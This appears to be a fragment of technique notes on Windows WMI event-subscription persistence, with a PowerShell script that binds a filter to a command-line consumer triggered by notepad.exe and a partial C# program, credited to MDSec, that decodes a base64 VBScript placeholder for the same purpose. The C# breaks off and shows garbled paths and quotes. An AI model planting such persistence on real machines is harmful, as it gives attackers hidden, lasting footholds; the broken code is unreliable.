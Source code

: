 - Powershell

```powershell
$FilterArgs = @{name='Testing';
                EventNameSpace='root\CimV2';
                QueryLanguage="WQL";
                Query="SELECT * FROM __InstanceModificationEvent WITHIN 3 WHERE TargetInstance ISA 'Win32_Process' AND Targetinstance.Name='notepad.exe'"};
$Filter=New-CimInstance -Namespace root/subscription -ClassName __EventFilter -Property $FilterArgs
 
$ConsumerArgs = @{name='Testing';
                CommandLineTemplate="cmd /c powershell mkdir C:\Users\<USER_NAME>\Desktop\WMITEST";}
$Consumer=New-CimInstance -Namespace root/subscription -ClassName CommandLineEventConsumer -Property $ConsumerArgs
 
$FilterToConsumerArgs = @{
Filter = [Ref] $Filter;
Consumer = [Ref] $Consumer;
}
$FilterToConsumerBinding = New-CimInstance -Namespace root/subscription -ClassName __FilterToConsumerBinding -Property $FilterToConsumerArgs
```

- Crafted Binary

```c#
// From MDSEC
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmi_persist
{
    class Program
    {
        static void Main(string[] args)
        {
            ManagementObject myEventFilter = null;
            ManagementObject myEventConsumer = null;
            ManagementObject myBinder = null;

            string vbscript64 = "<BASE64_TEXT>";
            string vbscript = Encoding.UTF8.GetString(Convert.FromBase64String(vbscript64));
            try
            {
                ManagementScope scope = new ManagementScope(@".rootsubscription");

                ManagementClass wmiEventFilter = new ManagementClass(scope, new
                ManagementPath("__EventFilter"), null);
                String strQuery = @"SELECT * FROM __InstanceCreationEvent WITHIN 5 " +
                    "WHERE TargetInstance ISA "Win32_Process" " +
                    "AND TargetInstance.Name = "notepad.exe"";

                WqlEventQuery myEventQuery = new WqlEventQuery(strQuery);
                myEventFilter = wmiEventFilter.CreateInstance();
                myEventFilter["Name"] = "demoEventFilter";
                myEventFilter["Query"] = myEventQuery.QueryString;
                myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
                myEventFilter["EventNameSpace"] = @"rootcimv2";
                myEventFilter.Put();
                Console.WriteLine("[*] Event filter created.");
```